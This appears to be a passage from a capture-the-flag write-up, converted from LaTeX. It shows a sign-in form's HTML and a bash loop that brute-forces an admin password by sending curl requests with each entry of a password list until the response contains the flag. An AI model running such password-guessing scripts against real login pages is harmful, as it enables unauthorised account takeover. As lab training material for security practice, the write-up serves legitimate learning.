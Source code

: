     <form action="\#" method="GET">

    <input type="hidden" name="page" value="signin">
    
    Username:<input type="text" name ="username" style="width:100\%;">

</td>

</tr>

<tr style="background-color:transparent;border:none;">
  
    <td style="vertical-align:middle;">
    
        Password:<input type="password" name ="password" style="width:100\%;" AUTOCOMPLETE="off">
        
    </td>

</tr>

```

So the plan is to `spam` the URL over and over until the correct password is accepted. This is done via trying a list of passwords and seeing which one is eventually accepted. Here is the code:

```

for i in \${password[@]}; do
    
    if curl --silent -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#" | grep "flag";
    
    then
    
        echo -e "\\nPassword is: \$i"
        
        curl -o sinkosi.html -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#"
        
        exit 1
    
    fi

done

echo -e "\\nPassword is not in list\\n"

```

When the password is successfully found it will be printed to the terminal and a file sinkosi.html will be created. Open the html file, and the flag will be there.

*Alternative:* Use the retrieved password printed on the terminal and login directly on the VM.

\subsection{Tools}

